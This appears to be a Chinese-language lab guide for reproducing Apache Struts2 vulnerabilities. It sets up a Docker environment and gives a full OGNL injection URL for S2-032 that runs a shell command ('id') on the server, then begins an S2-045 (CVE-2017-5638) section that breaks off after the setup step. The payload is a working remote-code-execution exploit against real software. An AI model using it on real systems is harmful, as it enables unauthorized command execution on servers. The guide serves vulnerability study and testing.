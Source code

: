 - https://cwiki.apache.org/confluence/display/WW/S2-032
- https://www.cnblogs.com/mrchang/p/6501428.html

## 漏洞环境

执行如下命令启动struts2 2.3.28：

```plain
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到默认页面。

## 漏洞复现

Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞。

直接请求如下URL，即可执行`id`命令：

```plain
http://your-ip:8080/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```



![img](assets/1670312377674-1a1bbc36-feeb-4007-b5d9-dd3ddc27315c.png)

------

# S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

- http://struts.apache.org/docs/s2-045.html
- https://blog.csdn.net/u011721501/article/details/60768657
- https://paper.seebug.org/247/

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```plain
docker-compose up -d
```
